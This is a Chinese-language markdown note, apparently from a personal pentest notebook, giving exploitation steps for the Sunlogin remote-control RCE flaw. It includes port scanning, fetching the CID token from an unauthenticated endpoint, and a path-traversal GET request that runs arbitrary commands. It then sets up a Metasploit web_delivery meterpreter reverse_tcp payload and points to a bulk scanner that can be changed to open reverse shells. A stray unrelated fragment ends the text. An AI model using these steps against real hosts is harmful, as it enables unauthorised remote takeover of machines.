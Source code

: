 ## 向日葵
- 向日葵是由Oray自主研发的一款远程控制软件, 主要面向企业和专业人员的远程PC管理和控制的服务软件
- 向日葵远控使用时会默认打开多个端口供服务使用但是开启的端口不固定, 所以需要通过扫描探测, 一般在40000以后
- 在11.0.33版本以下存在, 版本未更新时, 在同一网段下就可以直接攻击
	- 向日葵个人版 for Windows  <= 11.0.0.33
	- 向日葵简约版 <= V1.0.1.43315 (2021.12)

### 命令执行漏洞
- 黑客可以直接在web应用中执行系统命令, 从而获取敏感信息或者拿下主机权限

### 漏洞利用
1. 使用工具扫描目标主机的端口, 一般在40000以后
2. 扫描到后, 一个一个访问尝试(编写脚本), 正确的会返回一个False页面
3. 访问接口/cgi-bin/rpc?action=verify-haras获取"verify_string"的值, 作为CID
4. 访问/check, 使用burp抓包 ^0fe1a1
	- 修改GET请求值 `GET/check?cmd=ping../../../windows/system32/windowspowershell/v1.0/powershell.exe%20whoami` 或 `GET/check?cmd=ping../../../windows/system32/whoami`, 意为在windows的powershell中执行"whoami"命令, 此命令可以换成任何cmd命令
	- 添加cookie参数, 把verify_string的值作为CID填入 `Cookie: CID=xxxxxxx`
- Cookie是一个身份认证, 相当于密码, 拥有正确的CID才能访问对应的接口, 而这个Cookie可以在未授权的状态下提前在某个地址获取到, 然后从接口使用连接之后才有权限的cmd

### 如何深入利用漏洞
- 通过命令执行, 执行一些木马脚本上线其它平台
- 可以上线mdf(Metasploit)进行后渗透利用
- [批量漏洞扫描工具 sunlogin-fuzz.py](https://github.com/XiaoliChan/Xiaoli-Tools/tree/main/sunlogin-fuzz)
	- 自动扫描端口, 判断是否存在向日葵远程rce漏洞
	- 可以修改里面的参数, 达到个性化工具作用, 如反弹shell
	- 使用127.0.0.1:8080, 会经过burp发包并产生记录, 不要开启抓包
- kali的msf `msfconsole`
	```
	use exploit/multi/script/web_delivery
	show options
	show targets
	set targets PSH
	set payload windows/x64/meterpreter/reverse_tcp
	set lhost 192.168.xxx.xxx   #设置为自己的ip
	set lport 7788
	exploit     #自动生成postshell
	```
	- 获取到的postshell加在[[#^0fe1a1|第四步]]中get值的后面发送

centos64 thinkphp 宝塔命令行
